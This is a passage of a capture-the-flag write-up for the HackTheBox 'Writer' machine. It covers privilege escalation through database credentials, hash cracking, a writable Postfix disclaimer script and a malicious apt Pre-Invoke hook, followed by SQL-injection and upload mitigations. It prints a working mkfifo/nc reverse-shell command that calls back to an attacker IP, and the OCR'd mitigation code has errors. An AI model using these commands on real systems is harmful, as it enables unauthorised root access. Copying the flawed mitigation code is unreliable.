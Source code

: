 59938/bin/sh\: 0\: can’t access tty; job control turned off$ whoamiwww-dataPrivilege EscalationKyleAfter enumerating multiple files in the box, it was found that there is a username and password in a mysql config file called /etc/mysql/my.cnf that points to the dev database\:database = devuser = djangouserpassword = DjangoSuperPasswordOne of Kyle’s passwords is located in the databases, albeit it is hashed\:pbkdf2_sha256$260000$wJO3ztk0fOlcbssnS1wJPD$bbTyCB8dYWMGYlz4dSArozTY7wcZCS7DV6l5dpuXM4A=. Cracking this hash reveals that Kyle’s password is marcoantonio.JohnThe kyle user is part of multiple groups, one of them being the filter group which has permissions to edit the /etc/postfix/disclaimer file. Furthermore, after enumerating the ports running locally on the target, it was found that port 25 is open and running a Postfix SMTP server.With pspy[2] running on a separate kyle SSH instance, the following message was sent on the box\:kyle@writer\:~$ nc localhost 25220 writer.htb ESMTP Postfix (Ubuntu)MAIL FROM\:kyle@writer.htb250 2.1.0 OkRCPT TO\: john@writer.htb250 2.1.5 OkData354 End data with .  Thanks for reading this writeup!  .  250 2.0.0 Ok\: queued as 9BB6F137Upon sending this message, the following process occurred in the background\:            2021/08/25 00\:12\:54 CMD\: UID=1001 PID=23607        /bin/sh /etc/postfix/disclaimer -f kyle@writer.htb – john@writer.htb      Thus, the server is running as the john user (note UID=1001), and is executing the /etc/postfix/disclaimer file. Seeing as the kyle user had permission to edit this file, achieving a reverse shell as the john user could be obtained via appending a reverse shell to the top of the file and sending a message\:┌─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001listening on [any] 9001 …connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 49840/bin/sh\: 0\: can’t access tty; job control turned off$ whoamijohnPersistence on this account was maintained by grabbing john’s ssh key.RootJohn is part of the management group which has permission to edit the apt directory /etc/apt/apt.conf.d, a directory which is responsible for containing the apt configurations. As discovered using pspy, there is a cronjob running as root which performs the following command\: /usr/bin/apt-get update. Therefore, a malicious configuration that returns a reverse shell can be added to the directory as follows\:            john@writer\:~$ echo ‘apt\:\:Update\:\:Pre-Invoke {“rm /tmp/f;mkfifo /tmp/f;cat /tmp/f      /bin/sh -i 2&gt;&amp;1      nc 10.10.15.80 9001 &gt;/tmp/f”};’ &gt; /etc/apt/apt.conf.d/0xd4y-pwn      When the cronjob runs again, a reverse shell is returned as the root user\:┌─[✗]─[0xd4y@Writeup]─[~/business/hackthebox/medium/linux/writer]└──╼ $nc -lvnp 9001listening on [any] 9001 …connect to [10.10.15.80] from (UNKNOWN) [10.10.11.101] 56068/bin/sh\: 0\: can’t access tty; job control turned off# whoamirootPost Exploitation AnalysisThis section goes into further detail about the vulnerabilities of the target and how to mitigate them. Note that the mitigations shown in this section are incomplete pieces of code, however they are secure implementations of the desired result.SQLi Mitigation (PDO)This machine contained multiple vulnerabilities, starting with the SQL injection in the /administrative page. The vulnerability lies in the following SQL statement that is performed on the user’s query\:“Select * From users Where username = ‘%s’ And password = ‘%s’” % (username, password)This insecure SQL statement allows an attacker to add a single quote in their username and then perform an arbitrary SQL statement of their choosing. To mitigate SQL injection attacks, the current recommendation is to use PDO (PHP Data Objects). The following code does not directly pass the user input into the SQL statement. Rather, using PDO tells the server what the SQL query and the user-inputted data are. This is successfully performed because the instruction and user-input are sent separately to the database\:&lt;?phptry { $conn = new PDO(“mysql\:host=$servername;dbname=$dbname”, $db_username, $db_password); // set the PDO error mode to exception $conn-&gt;setAttribute(PDO\:\:ATTR_ERRMODE, PDO\:\:ERRMODE_EXCEPTION); // prepare sql and bind parameters        $query = “INSERT INTO users (username,password)  VALUES(\:username,\:password)”;        $statement = $conn-&gt;prepare($query);        $statement-&gt;execute(array(   ’\:username’=&gt; $username,   ’\:password’=&gt; $password        ));} catch(PDOException $e) { echo ”Error\: “ . $e-&gt;getMessage();}$conn = null;?&gt;Image Upload (RCE)After successfully performing an SQL injection attack, an upload feature in the webpage was exploited to gain RCE due to insecure python code. System commands and evaluation functions should never be performed on user input. As discussed in Finding RCE Vulnerability, the system() function in the os module was the reason for the critical RCE vulnerability. The following code prevents this vulnerability\:from werkzeug.utils import secure_filenamefrom PIL import Imagefilename = request.file(‘image’)image = StringIO(base64.b64decode(download[‘file’]))allowed_extensions = [‘jpg’,’jpeg’]if filename.split(‘.’)[-1] in allowed_extensions\:        try\:                filename = secure_filename(filename)                img = Image.open(image)                img.verify()                path = os.path.join(‘/var/www/writer.htb/writer/static/img/’, filename)                image.save(path)        except Exception\:                print(‘Invalid image’)else\:        print(‘Filename extension not allowed.’)The above program verifies if a file is a valid image by first checking its extension. Note that this is different from the source code of the website which simply searches for the presence of the .jpg string in the filename. After verifying the file’s extension, PIL’s verify method is called